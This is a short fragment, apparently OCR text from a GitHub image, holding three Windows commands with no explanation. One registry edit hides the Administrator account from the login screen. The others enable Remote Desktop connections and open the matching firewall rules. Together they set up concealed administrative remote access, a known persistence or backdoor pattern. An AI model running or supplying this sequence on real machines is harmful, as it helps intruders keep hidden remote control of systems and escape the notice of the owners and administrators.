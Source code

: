 reg add "HKLM\Software\Microsoft\Windows NT\CurrentVersion\Winlogon\SpecialAccounts\UserList" /v Administrator /t REG_DWORD /d 0 /f



reg add "HKLM\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 0 /f
netsh advfirewall firewall set rule group="remote desktop" new enable=Yes
